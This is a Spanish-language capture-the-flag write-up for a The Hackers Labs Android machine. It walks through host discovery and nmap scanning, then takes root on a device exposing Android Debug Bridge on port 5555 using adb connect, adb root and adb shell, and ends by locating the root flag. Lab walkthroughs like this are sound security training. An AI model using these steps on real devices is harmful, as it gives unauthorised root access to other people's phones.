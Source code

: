 ```yaml
---
title: Movile Phone
description: ¡Explora el emocionante mundo del hacking en Android en nuestra plataforma de CTFs y retos! Desafía las vulnerabilidades en el sistema operativo móvil más utilizado, utiliza herramientas especializadas y aplica técnicas avanzadas para comprometer y manipular dispositivos Android. Cada reto te permitirá mejorar tus habilidades en explotación de aplicaciones móviles y control de sistemas Android. ¡Acepta el desafío, demuestra tu destreza y domina el arte de la seguridad en Android!
date: 2025-03-06
toc: true
pin: false
image:
 path: /assets/img/thl-writeup-movilephone/movilephone_logo.png
categories:
  - The_Hackers_Labs
tags:
  - android
  - the_hackers_labs
  - adb
  - tcp
  - privilege_escalation

---
```

## Information Gathering

![](assets/img/thl-writeup-movilephone/movilephone1_1.png)

```terminal
/home/kali/Documents/thehackerslabs/movilephone:-# arp-scan -l | grep 08:00
192.168.0.60	08:00:27:10:3f:9a	PCS Systemtechnik GmbH
```

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/thehackerslabs/movilephone:-# ping -c 1 192.168.0.60
PING 192.168.0.60 (192.168.0.60) 56(84) bytes of data.
64 bytes from 192.168.0.60: icmp_seq=1 ttl=64 time=0.257 ms

--- 192.168.0.60 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.257/0.257/0.257/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/thehackerslabs/movilephone:-# nmap -p- --open -sS --min-rate 5000 -vvv -Pn 192.168.0.60 -oG nmap1
Status: Up
Ports: 5555/open/tcp//freeciv///	Ignored State: closed (65534)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/thehackerslabs/movilephone:-# nmap -sCV -p5555 -vvv 192.168.0.60 -oN nmap2
PORT     STATE SERVICE  REASON         VERSION
5555/tcp open  freeciv? syn-ack ttl 64
MAC Address: 08:00:27:10:3F:9A (Oracle VirtualBox virtual NIC)
```

---
## Privilege Escalation

Se establece una conexión con el dispositivo a través de Android Debug Bridge utilizando el puerto 5555.

```terminal
/home/kali/Documents/thehackerslabs/movilephone:-# adb connect 192.168.0.60:5555
connected to 192.168.0.60:5555
```

Una vez conectado, intento elevar privilegios con adb root, lo que reinicia el daemon de ADB con privilegios de superusuario

```terminal
/home/kali/Documents/thehackerslabs/movilephone:-# adb root
restarting adbd as root
```

A continuación, abro una shell interactiva en el dispositivo. Y verifico que el acceso se ha obtenido correctamente.

```terminal
/home/kali/Documents/thehackerslabs/movilephone:-# adb shell

root@x86_64:/ # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)
```

Para localizar la flag de root, utilizó find para buscar el archivo root.txt en el sistema.

```terminal
root@x86_64:/ # find / -name 'root.txt' 2>/dev/null
/data/root/root.txt

root@x86_64:/ # cat data/root/root.txt
```